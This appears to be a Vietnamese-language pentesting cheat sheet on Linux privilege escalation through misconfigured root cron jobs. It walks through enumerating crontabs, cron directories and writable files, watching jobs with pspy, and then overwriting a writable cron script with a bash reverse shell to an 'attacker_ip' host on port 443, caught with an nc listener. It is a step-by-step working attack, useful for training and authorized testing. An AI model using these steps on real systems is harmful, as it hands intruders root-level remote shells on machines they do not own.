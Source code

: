 # Cron Jobs

## Điểm chính khai thác

* Khai thác các công việc cron chạy với quyền root để nâng quyền từ người dùng thường, tận dụng tập lệnh hoặc thư mục có thể ghi, thông tin xác thực cứng, hoặc cấu hình sai
* Công việc cron được lên lịch bằng định dạng phút, giờ, ngày, tháng, ngày trong tuần, với tần suất ảnh hưởng đến thời gian khai thác: mỗi phút (60 giây) lý tưởng, trong khi mỗi ngày (86,400 giây) cần chờ lâu hơn
* Các thư mục như /etc/cron.d/, /etc/cron.hourly/, /etc/cron.daily/, /var/spool/cron/crontabs/ là mục tiêu tiềm năng để tìm tệp cấu hình sai hoặc có thể ghi
* Công cụ như pspy giúp phát hiện công việc cron ẩn và xác định khoảng thời gian thực thi thời gian thực, đặc biệt trong container hoặc hệ thống phức tạp

## Các bước khai thác

### Kiểm tra lỗ hổng

#### Xác định mục tiêu tiềm năng

Hiển thị các công việc cron hệ thống trong /etc/crontab để tìm tập lệnh chạy bởi root hoặc cấu hình sai:

```
cat /etc/crontab
```

Xác định công việc cron của người dùng hiện tại để tìm tập lệnh chạy bởi root với đường dẫn có thể chỉnh sửa:

```
crontab -l
```

#### Kiểm tra quyền truy cập hoặc cấu hình

Kiểm tra các thư mục cron đặc biệt để tìm tập lệnh có thể ghi hoặc cấu hình sai:

```
ls -l /etc/cron.hourly/ /etc/cron.daily/ /etc/cron.weekly/ /etc/cron.monthly/
```

Tìm tập lệnh có thể ghi được cron tham chiếu để xác định mục tiêu khai thác:

```
find / -writable -type f 2>/dev/null
```

#### Phân tích ngữ cảnh thực thi

Xác nhận các công việc cron đang hoạt động và thời gian thực thi, đồng thời kiểm tra lệnh được thực thi:

```
grep "CRON" /var/log/syslog
```

Phát hiện công việc cron không được liệt kê và xác định tập lệnh chạy bởi root:

```
./pspy
```

### Thực thi khai thác

#### Chuẩn bị payload hoặc mã khai thác

Ghi đè tập lệnh có thể ghi bằng shell ngược để chuẩn bị khai thác:

```
echo '/bin/bash -i >& /dev/tcp/attacker_ip/443 0>&1' > <file>
```

{% hint style="info" %}
Đảm bảo tệp có quyền ghi (`-rw-rw-rw-`, kiểm tra bằng `ls -l`).&#x20;
{% endhint %}

#### Áp dụng khai thác

Trao quyền thực thi cho reverse shell

```
chmod +x <file>
```

Thay thế reverse shell với file thực thi đang chạy cron job

```
mv <file> <path_file>
```

#### Kích hoạt khai thác

Chờ cron thực thi tập lệnh để kích hoạt payload:

```
nc -lvnp 443
```